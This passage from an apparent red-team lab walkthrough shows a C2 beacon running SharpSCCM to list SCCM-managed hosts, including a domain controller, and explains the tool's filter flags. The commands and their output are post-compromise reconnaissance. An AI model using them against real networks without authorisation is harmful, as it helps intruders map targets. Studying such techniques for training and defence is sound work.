```powershell

[12/18 22:14:43] [+] received output:
ClientCertType: 1
CollectionID: S0100014
Domain: DEV
IsActive: True
IsApproved: 1
IsAssigned: True
IsClient: True
Name: WKSTN-2
ResourceID: 16777225
SiteCode: S01
SMSID: GUID:02E5FD54-AC4E-49C3-B8A2-E04AFE6E33C9
-----------------------------------

[12/18 22:14:43] [+] received output:
ClientCertType: 1
CollectionID: S0100014
Domain: DEV
IsActive: True
IsApproved: 1
IsAssigned: True
IsClient: True
Name: WEB
ResourceID: 16777226
SiteCode: S01
SMSID: GUID:C107E97D-45B0-4162-8104-16683CCE7EEE
-----------------------------------

[12/18 22:14:43] [+] received output:
ClientCertType: 1
CollectionID: S0100014
Domain: DEV
IsActive: True
IsApproved: 1
IsAssigned: True
IsClient: True
Name: DC-2
ResourceID: 16777228
SiteCode: S01
SMSID: GUID:CFDD0F4F-E37A-43C3-B54E-FB1BB324CA21
-----------------------------------
[+] Completed execution in 00:00:01.8975693
```
Even more information on each device can be obtained using `get devices`.  There are some good ways to filter the output, such as searching by device name, `-n`, and only displaying the properties specified by `-p`.
`get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner`
```powershell
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
[*] Tasked beacon to run .NET program: SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
[+] host called home, sent: 1233402 bytes
[+] received output:


[+] received output:
[+] Querying the local WMI repository for the current management point and site code
[+] Connecting to \\127.0.0.1\root\CCM
[+] Current management point: scm-1.cyberbotic.io
[+] Site code: S01
```